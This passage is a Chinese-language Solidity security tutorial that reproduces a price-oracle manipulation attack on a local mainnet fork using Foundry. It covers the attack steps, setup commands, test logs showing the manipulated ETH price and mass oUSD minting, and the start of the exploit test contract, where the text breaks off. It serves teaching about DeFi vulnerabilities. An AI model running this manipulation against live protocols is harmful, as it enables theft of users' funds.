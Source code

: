### 攻击思路

我们针对有漏洞的价格预言机 `getPrice()` 函数进行攻击，步骤：

1. 准备一些 `BUSD`，可以是自有资金，也可以是闪电贷借款。在实现中，我们利用 Foundry 的 `deal` cheatcode 在本地网络上给自己铸造了 `1_000_000 BUSD`
2. 在 UniswapV2 的 `WETH-BUSD` 池中使用`BUSD`大量买入 `WETH`。具体实现见攻击代码的 `swapBUSDtoWETH()` 函数。
3. 在此情况下，`WETH-BUSD`池中代币对比例失去了平衡，`WETH` 瞬时价格暴涨，这时我们调用 `swap()` 函数将 `ETH` 转换为 `oUSD`。
4. **可选:** 在 UniswapV2 的 `WETH-BUSD` 池中卖出第2步买入的 `WETH`，收回本金。

这4步可以在一个交易中完成。

### Foundry 复现

我们选用 Foundry 进行操纵预言机攻击的复现，因为它很快，并且可以创建主网的本地分叉，方便测试。如果你不了解 Foundry，可以阅读 [WTF Solidity工具篇 T07: Foundry](https://github.com/AmazingAng/WTF-Solidity/blob/main/Topics/Tools/TOOL07_Foundry/readme.md)。

1. 在安装好 Foundry 之后，在命令行输入下列命令启动新项目，并安装 openzeppelin 库。
  ```shell
  forge init Oracle
  cd Oracle
  forge install Openzeppelin/openzeppelin-contracts
  ```

2. 在根目录下创建 `.env` 环境变量文件，并在其中添加主网rpc，用于创建本地测试网。

  ```
  MAINNET_RPC_URL= https://rpc.ankr.com/eth
  ```

3. 将这一讲的代码，`Oracle.sol` 和 `Oracle.t.sol`，分别复制到根目录的 `src` 和 `test` 文件夹下，然后使用下列命令启动攻击脚本。

  ```
  forge test -vv --match-test testOracleAttack
  ```

4. 我们可以在终端中看到攻击结果。在攻击前，预言机 `getPrice()` 给出的 `ETH`
价格为 `1216 USD`，是正常的。但在我们使用 `1,000,000` BUSD 在 UniswapV2 的 `WETH-BUSD` 池子中买入 `WETH` 之后，预言机给出的价格被操纵为 `17,979,841,782,699 USD`。这时，我们可以轻松的用 `1 ETH` 兑换17万亿枚 `oUSD`，完成攻击。
  ```shell
  Running 1 test for test/Oracle.t.sol:OracleTest
  [PASS] testOracleAttack() (gas: 356524)
  Logs:
    1. ETH Price (before attack): 1216
    2. Swap 1,000,000 BUSD to WETH to manipulate the oracle
    3. ETH price (after attack): 17979841782699
    4. Minted 1797984178269 oUSD with 1 ETH (after attack)

  Test result: ok. 1 passed; 0 failed; finished in 262.94ms
  ```

攻击代码：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.21;
import "forge-std/Test.sol";
import "forge-std/console.sol";
import "../src/Oracle.sol";

contract OracleTest is Test {
    address private constant alice = address(1);
    address private constant WETH = 0xC02aaA39b223FE8D0A0e5C4F27eAD9083C756Cc2;
    address private constant BUSD = 0x4Fabb145d64652a948d72533023f6E7A623C7C53;
    address private constant ROUTER = 0x7a250d5630B4cF539739dF2C5dAcb4c659F2488D;
    IUniswapV2Router router;
    IWETH private weth = IWETH(WETH);
    IBUSD private busd = IBUSD(BUSD);
    string MAINNET_RPC_URL;
    oUSD ousd;

```